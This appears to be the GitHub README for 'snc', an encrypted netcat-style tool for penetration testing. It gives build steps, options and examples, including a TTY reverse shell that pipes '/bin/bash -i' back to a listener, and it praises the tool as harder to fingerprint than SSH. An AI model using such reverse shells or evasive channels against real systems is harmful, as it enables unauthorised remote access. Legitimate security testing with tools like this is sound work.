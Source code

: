 snc
===
Something that always bothered me about `netcat` is the fact that it doesn't implement encryption.
Something that always bothered me about `cryptcat` is the fact that it doesn't implement command
execution. Something that always bothered me about SSH and SCP is the fact that they're just too
complex for simpler use cases (specially during pentests) and easily fingerprintable.

Motivated by that, this tool aims to combine the best of each in a single place, from simple raw
data channels to fully interactive TTY reverse shells. Connections are encrypted with AES-128 by
default but another key size can be set in `src/include/aes.h`. More on `snc`'s inner workings are
detailed [here](https://github.com/hiatus/snc/blob/main/doc/PROTOCOL.md) for those interested.


Compilation
------------
```bash
$ git clone https://github.com/hiatus/snc.git
$ cd snc && make
```

Usage
-----
```
snc [options] [host]? [port]
	-h           this
	-v           display connection information
	-n           disable DNS resolution
	-r           set terminal to raw mode during the connection
	-e [argv]    execute [argv] and pipe it's IO to the connection socket
	-E [argv]    execute [argv] in a TTY and pipe it's IO to the connection socket
	-d [char]    use [char] as string delimiter for [argv]
	-k [pass]    use the string [pass] as AES key
	-K [file]    use the file [file] as AES key
	-i [file]    read input from [file] instead of stdin
	-o [file]    write output to [file] instead of stdout
	-w [secs]    set a timeout of [secs] seconds for idle connections

	Notes:
		- When [host] is not provided, snc acts as server listening on port [port].
		- Option -d is useful when [argv] has arguments containing spaces.
```

Examples
--------
Some example use cases.

- **Raw Data Channel** \
	Server
	```bash
	user@server:~$ snc -vK key.bin 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:41184
	Hello, server.
	Hello, client.
	Farewell, client.
	user@server:snc$
	```

	Client
	```bash
	user@client:~$ snc -K key.bin 192.168.0.2 12345
	Hello, server.
	Hello, client.
	Farewell, client.
	user@client:~$
	```

- **File Transfer** \
	Server
	```bash
	user@server:~$ snc -vk password -i message.txt 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:53130
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -k password 192.168.0.2 12345
	Message content.
	user@client:~$
	```

- **Command Output Transfer** \
	Server
	```bash
	user@server:~$ snc -vk password -e '/bin/echo Hello' 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:37480
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -k password 192.168.0.2 12345
	Hello
	user@client:~$
	```

- **TTY Reverse Shell** \
	Server
	```bash
	user@server:~$ snc -rk password 12345
	user@client:~$ whoami
	user
	user@client:~$ exit
	exit
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -vk password -E '/bin/bash -i' 192.168.0.2 12345
	[snc] Connecting to 192.168.0.2:12345
	[snc] Connected
	user@client:~$
	```
